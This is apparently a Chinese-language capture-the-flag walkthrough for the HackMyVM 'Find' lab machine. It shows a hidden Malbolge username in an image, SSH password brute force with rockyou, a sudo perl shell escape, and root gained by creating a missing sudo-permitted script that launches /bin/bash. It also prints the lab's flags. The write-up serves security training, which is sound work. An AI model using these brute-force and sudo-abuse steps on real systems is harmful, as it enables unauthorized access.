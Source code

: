 # Find

2025.02.04 https://hackmyvm.eu/machines/machine.php?vm=Find

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

直接看 80 web 服务，一般 22 ssh 不会出现直接问题。web 首页是 apache 的服务页面，gobuster 扫描一下隐藏目录。

http://192.168.5.40/robots.txt 提示: find user :) 同时发现一个图片: http://192.168.5.40/cat.jpg 。可能有隐写，exiftool 发现 https://commons.wikimedia.org/wiki/File:Cat03.jpg，原图中也有一个cat.jpg，但是这两个cat图片的内容不一样，对比后发现在cat.jpg的末尾中多出来了一串字符串：

```
>C<;_"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTSRQPONMLKJ`_dcba`_^]\Uy<XW
VOsrRKPONGk.-,+*)('&%$#"!~}|{zyxwvutsrqponmlkjihgfedcba`_^]\[ZYXWVUTSRQPONML
KJIHGFEDZY^W\[ZYXWPOsSRQPON0Fj-IHAeR
```

经过搜索，找到了这个解密网站: https://www.malbolge.doleczek.pl/ 解密后得到用户名: missyred

目前得到了用户名，根据提示，可能需要这个用户名登陆 ssh，尝试 rockyouo 爆破，得到密码: iloveyou

登陆后，sudo -l 发现: (kings) /usr/bin/perl , 提权到用户 kings : sudo -u kings perl -e 'exec "/bin/bash";'

得到 user flag:

```
$ cat user.txt
f4e690f638c01bd8a19fb1349d40519c
```

sudo -l 发现: (ALL) NOPASSWD: /opt/boom/boom.sh 但是这个文件并不存在，我们可以手动创建，然后直接提权到 root。

```
mkdir -p /opt/boom/
echo '/bin/bash' > /opt/boom/boom.sh
chmod +x /opt/boom/boom.sh
sudo -u root /opt/boom/boom.sh
```

最终得到了 root flag:

```
root@find:~# cat root.txt
c8aaf0f3189e000006c305bbfcbeb790
```
